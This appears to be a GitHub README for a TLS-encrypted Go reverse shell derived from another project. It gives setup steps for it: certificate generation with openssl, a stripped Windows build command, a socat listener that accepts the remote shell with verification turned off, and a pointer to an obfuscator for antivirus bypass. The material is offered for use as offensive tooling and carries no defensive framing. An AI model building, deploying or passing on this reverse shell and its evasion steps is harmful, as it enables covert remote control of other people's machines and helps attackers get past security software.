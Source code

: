# go reverse shell secure

A TLS enabled implementation of a clean go reverse shell "rev2go" by sathish09.


**Features**

- Interactive shell (use "gorss-interactive.go")
- TLS connectivity

**Why Go?** 

Check it out over at his blog. 
- https://medium.com/@sathish__kumar/undetectable-reverse-shell-with-golang-4fd4b1e172c1
- https://github.com/sathish09/rev2go

**AV bypass**

Consider leveraging..
- https://github.com/unixpickle/gobfuscate

**Setup**

Generate server certificate or disable client validation (yahoo! pew pew pew!)

```
openssl genrsa -out server.key 2048 
openssl ecparam -genkey -name secp384r1 -out server.key
openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```

Update script:
- Configure your listener domain/ip:port
- Configure SSL certificate public key or disable client validation
- gorss-interactive.go: Update script to use "/bin/bash", "/bin/sh", "cmd.exe", etc


**Build for target platform**

Windows:
```
env GOOS=windows GOARCH=386 go build -ldflags "-s -w" -o gors.exe gors.go
```
Use build reference table for specific target architecture.
* https://github.com/sathish09/rev2go#build


**Listener**
```
socat openssl-listen:443,reuseaddr,fork,cert=/tmp/gors/server.pem,cafile=/tmp/gors/server.crt,verify=0 -
```

![image](https://user-images.githubusercontent.com/56988989/69015224-f394b480-0989-11ea-8e42-71038b778e06.png)



Enjoy~
